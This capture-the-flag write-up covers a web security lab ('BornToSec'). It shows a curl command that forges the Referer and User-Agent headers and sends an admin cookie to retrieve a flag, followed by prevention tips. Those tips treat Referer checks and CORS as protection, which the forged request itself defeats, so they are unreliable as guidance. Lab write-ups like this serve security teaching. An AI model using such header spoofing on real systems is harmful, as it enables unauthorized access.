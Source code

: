 # Description

Visting Home page we find a link in `© BornToSec` in the footer of the page.

If we checked the source code of the html file we find this string

```html
<!--
You must come from : "https://www.nsa.gov/".
-->
```

As it seems that we need to change to referer of the request so that it the webserver thinks that the request is comming from `https://www.nsa.gov/`


# Attack

```bash
*[main][~/projects/darkly]$ curl 'http://10.14.59.83/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'Accept-Language: en-US,en;q=0.9,ar;q=0.8,fr;q=0.7' \
  -H 'Cache-Control: max-age=0' \
  -H 'Connection: keep-alive' \
  -H 'Cookie: I_am_admin=68934a3e9455fa72420237eb05902327' \
  -H 'Referer: https://www.nsa.gov/' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: ft_bornToSec' \
  --compressed \
  --insecure | grep flag
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2574    0  2574    0     0  2486k      0 -<center><h2 style="margin-top:50px;"> The flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
-:--:-- --:--:-- --:--:-- 2513k

```

# Prevent

- **Referrer Header Check:** Implement a server-side check that verifies the Referer header of incoming requests. If the request is supposed to come from a specific source, make sure it matches that source. If it doesn't, deny the request.

- **Use Same-Origin Policy:** Leverage the Same-Origin Policy to prevent unauthorized cross-origin requests. Configure your server to disallow requests from domains other than your own.

- **Cross-Origin Resource Sharing (CORS):** If you need to allow certain cross-origin requests, set up CORS properly. Specify which origins are allowed to access your resources by configuring CORS headers on the server.
